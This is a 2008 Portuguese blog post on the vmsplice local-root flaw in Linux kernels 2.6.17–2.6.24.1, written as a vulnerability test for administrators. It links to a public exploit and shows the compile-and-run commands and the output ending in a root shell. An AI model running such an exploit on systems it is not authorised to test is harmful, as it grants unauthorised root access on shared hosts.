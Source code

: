 ```yaml
--- 
layout: post
title: "Exploit para vmsplice no kernel 2.6 do linux permite acesso de root para usu\xC3\xA1rio local"
wordpress_id: 165
wordpress_url: http://rafael.adm.br/p/exploit-para-vmsplice-no-kernel-26-do-linux-permite-acesso-de-root-para-usuario-local/
date: 2008-02-12 10:04:36 -02:00
---
```

Foi descoberta uma falha que afeta praticamente todas as distribuições que possuem versão do kernel de 2.6.17 a 2.6.24.1

Esta falha permite que usuários locais tenham acesso de root. Este bug afeta em geral os serviços de hosting onde os usuários tem acesso por SSH. Caso você utilize um computador em casa que só você tem acesso, o bug pode existir, mas não vai te afetar, pois usuários remotos não conseguem acesso de root sem ter uma conta de usuário normal na máquina.

Para testar se o seu sistema está vulnerável, copie o <a href="http://www.milw0rm.com/exploits/5092">conteúdo do exploit</a> para a máquina de teste e rode os comandos abaixo:

[code]

$ gcc exploit.c -o exploit
$ whoami
(irá mostrar seu nome de usuário)
$ ./exploit
-----------------------------------
Linux vmsplice Local Root Exploit
By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7d90000 .. 0xb7dc2000
[+] root
$ whoami
root
(você estará logado como root)
[/code]

Mais informações: <a href="http://www.google.com/search?q=exploit+kernel+2.6+local+root">busque no google</a>
